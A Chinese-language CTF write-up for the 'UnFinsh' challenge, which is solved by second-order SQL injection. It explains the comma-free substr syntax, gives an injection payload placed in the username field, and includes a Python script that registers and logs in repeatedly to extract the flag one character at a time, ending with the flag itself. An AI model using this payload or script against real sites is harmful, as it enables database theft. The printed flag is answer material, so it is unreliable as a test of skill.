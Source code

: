 # UnFinsh

> sql二次注入

## substr

> 从一个内容中,按照指定条件,「截取」一个字符串.这个内容可以是数值或字符串.有2种语法模式

> substr(obj,start,length)

> substr(obj FROM start FOR length)

## 思路分析

> 打开网站是一个登陆页面,源码没信息,扫目录发现register.php,进行注册,登陆后发现是一张图片和显示用户名.题目要考察的就清楚了,是二次注入.有很多关键字被过滤了,最后fuzz,选择使用substr截取字符,逗号又被过滤,使用第二种语法模式.

## payload

> 0'+ascii(substr((select * from flag) from {i} for 1))+'0;

> 前面和后面进行0'+与+'0的是为了构造闭合,+0对值也不会有变化,

```
import requests
from time import sleep
from bs4 import BeautifulSoup
 
 
def flag():
    flag = ''
    url = 'http://61.147.171.105:53454/'
    register_url = url + 'register.php'
    login_url = url + 'login.php'
    for i in range(1, 100):
        sleep(0.5)
        register_data = {
            "email": f"aiwin{i}@163.com", 
            "username": f"0'+ascii(substr((select * from flag) from {i} for 1))+'0;", "password": "1"
        }
        login_data = {
            "email": f"aiwin{i}@163.com", 
            "password": "1"
        }
        requests.post(register_url, data = register_data)
        response_login = requests.post(login_url, data = login_data)
        bs = BeautifulSoup(response_login.text, 'html.parser')  # bs4解析页面
        username = bs.find('span', class_ = 'user-name')  # 取返回页面数据的span class=user-name属性
        number = username.text  # 取该属性的数字
        flag += chr(int(number))
        print(flag)
        if '}' in flag:
            break
 
 
if __name__ == '__main__':
    flag()
```

## flag

> flag{2494e4bf06734c39be2e1626f757ba4c}